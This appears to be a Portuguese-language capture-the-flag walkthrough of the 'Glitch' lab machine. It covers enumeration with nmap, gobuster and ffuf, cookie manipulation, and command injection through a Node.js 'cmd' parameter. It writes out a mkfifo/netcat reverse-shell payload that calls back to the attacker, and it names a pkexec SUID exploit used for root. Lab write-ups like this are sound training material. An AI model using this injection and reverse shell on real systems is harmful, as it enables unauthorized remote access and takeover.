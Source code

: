 # _**Glitch CTF**_
![](glitch.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website, vamos investigar  
Procurando algo na ferramenta de desenvolvedor, temos uma string em base64  
Traduzindo, temos a reposta de _token_  

![](token.jpg)

Nenhuma pista a mais  
Vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Acessando cada um dos diretórios, não temos muitas informações  
Investigando novamente nas ferramentas de desenvolvedor, temos o seguinte trecho  

![](image.jpg)

Procurando algumas maneiras de explorar o site, vemos que a dica fornecida  
Executamos o comando abaixo em busca de diretórios utilizando o token de acesso
> ```bash
> ffuf -u http://[ip_address]/api/FUZZ -H "Authorization: Bearer dGhpc19pc19u3RfcmVhbA==" -w ../seclists/Discovery/Web-Content/common.txt -mc 200,204,301,302,403
> ```
![](ffuf_result.jpg)

Temos um novo diretório, mas acessando, temos apenas os 7 pecados capitais  
Após novamente tentar _fuzz_ com <mark>ffuf</mark> e também _directory_traversal_, nada foi encontrado  
Investigando outras partes da ferramenta de desenvolvedor, temos um cookie com nome _value_  
Alterando o valor do cookie para o valor traduzido da string base64, temos uma nova página web  

![](new_page.jpg)

Investigando a página, temos algumas interações, mas nada de especial  
Novamente sem pistas, voltamos a pensar  
Um diretório que não havia nada era _secret_  
Visitando novamente, temos uma página  

![](secret.jpg)

Mas parece que não tem nada de especial  
Vamos visitar outros diretórios descobertos  
Investigando _/api/items_ com o comando ```ffuf -X FUZZ -u http://[ip_address]/api/items -w ../wordlists/wfuzz/general/http_methods.txt -mc all```, temos retorno 502, 404, 200 e 400  
Este comando foi utilizando anteriormente para testar _/api/access_, mas em POST, tivemos código 404, mas aqui, tivemos código 400  
Vamos tentar utilizar com ```curl```
> ```bash
> curl -X POST http://[ip_address]/api/items
> ```
![](post_400.jpg)

Temos uma nova mensagem  

![](matrix.jpg)

Como fizemos anteriormente, vamos substituir no valor de cookie  
Nada mudou  
Após um tempo perdido, foi decidido tentar _fuzzing_ novamente  
O resultado de POST parece nos dizer que está faltando um parâmetro
> ```bash
> ffuf -X POST -u http://[ip_address]/api/items\?FUZZ\=test -w /usr/share/wordlists/wfuzz/general/medium.txt
> ```
![](new_ffuf.jpg)

Temos uma nova descoberta com ```cmd``` 
Vamos testar alguns comandos  
Não temos retorno  
Daqui, fiquei perdido e fui buscar como explorar essa possível falha  
Encontrei [aqui]() e [aqui]()  
Vamos utilizar ```('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f')``` com URL encode e o comando abaixo
> ```bash
> curl -X POST http://glitch.thm/api/items?cmd=require[reverse_shell_url_encode]
> ```
Assim, consguimos acesso a máquina  

## _**Escalando privilégios**_
Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, encontramos alguns arquivos e um deles chama a atenção: **pkexec**  
Transferimos o arquivo _.py_ para a máquina alvo e tentamos executar para ganhar _root_  
E sucesso  

![](root.jpg)

Agora, vá atrás das flags!
